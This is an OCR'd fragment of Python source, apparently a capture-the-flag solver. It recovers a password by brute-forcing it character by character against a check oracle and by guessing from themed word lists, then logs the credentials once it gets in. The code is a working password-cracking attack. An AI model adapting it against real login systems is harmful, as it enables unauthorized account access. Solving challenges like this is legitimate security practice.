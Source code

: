 ```python
        self.incorrect += 1
        return False

    def brute_force(self, password: str = ""):
        log.warning(f"Brute forcing from: {password}")
        while True:
            for c in tqdm(ALPHABET):
                if self.check(password + c):
                    password += c
                    log.debug(f"Partial: {password}")
                    break
            else:
                raise NotFound("Brute")

    def guess_words(self, words, password: str = "", fallback=True):
        for word in words:
            test = password + word
            if self.check(test):
                return test
        else:
            if fallback:
                log.warn(f"Failed to use password from {words}")
                log.warn("Falling back to bruteforce")
                return self.brute_force(password)
            else:
                return None

    def guess_words_smart(self, words, password: str = ""):
        # Napkin maths says 4 is a good number
        if len(words) < 4:
            return self.guess_words(words, password)
        first_letters = Counter(word[0] for word in words).most_common()
        if first_letters[0][1] == 1:
            return self.guess_words(words, password)
        first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
        new_s = self.guess_words(first_letters_s, password, fallback=False)
        if new_s is None:
            new_words = [word for word in words if word[0] not in first_letters_s]
            assert len(new_words) > 0
            return self.guess_words_smart(new_words, password)
        words = [word[1:] for word in words if word[0] == new_s[-1]]
        return self.guess_words_smart(words, new_s)

    def solve(self):
        try:
            password = self.guess_words_smart(days)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(movies, password)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(elements, password)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(nato_phonetic, password)
            log.info(f"Partial: {password!r}")
            log.warning("Something after phonetic alphabet, resorting to brute force")
            self.brute_force(password)
        except SuccessfulConnection as e:
            log.info("We're in!")
            out = self.r.recvall(0.1)
            msg = e.args[0] + out.decode()
            log.info(f"Guesses: {self.guesses}")
            log.info(f"User: {self.user}")
            log.info(f"Password: {self.password}")
            log.info(f"MSG: {msg}")
```